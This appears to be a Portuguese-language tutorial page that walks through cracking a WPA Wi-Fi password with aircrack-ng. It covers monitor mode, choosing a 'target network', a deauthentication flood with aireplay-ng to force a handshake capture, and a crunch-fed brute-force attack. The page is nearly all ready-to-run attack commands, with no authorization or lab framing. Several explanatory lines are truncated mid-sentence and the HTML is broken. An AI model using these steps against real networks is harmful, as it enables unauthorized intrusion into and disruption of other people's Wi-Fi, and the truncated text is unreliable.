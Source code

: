 <p>
Instale o aircrack-ng:
</p>

<p>
<precode><code>sudo apt-get update
sudo apt-get install aircrack-ng
</code></pre>
</p>

<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<precode><code>iwconfig
</code></pre>
</p>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<precode><code>sudo airmon-ng
</code></pre>
</p>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<precode><code>sudo airmon-ng check kill
</code></pre>
</p>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<precode><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
iwconfig
</code></pre>

<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<precode><code>airodump-ng [nome_da_sua_interface_wireless]
</code></pre>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de$
<strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador se$
<strong>CH:</strong> Canal na qual a rede está operando.<br />
<strong>ESSID:</strong> nome que é visível na rede.<br />
</p>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em$
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados
</code></pre>
</p>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à $
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Verificar o WPA HANDSHAKE capturado no arquivo criado anteriormente na execução do comando de captura. No $
</p>
<pre><code>ls
sudo aircrack-ng net-01.cap
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>

<p>
Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<precode><code>sudo service network-manager start
</code></pre>
</p>
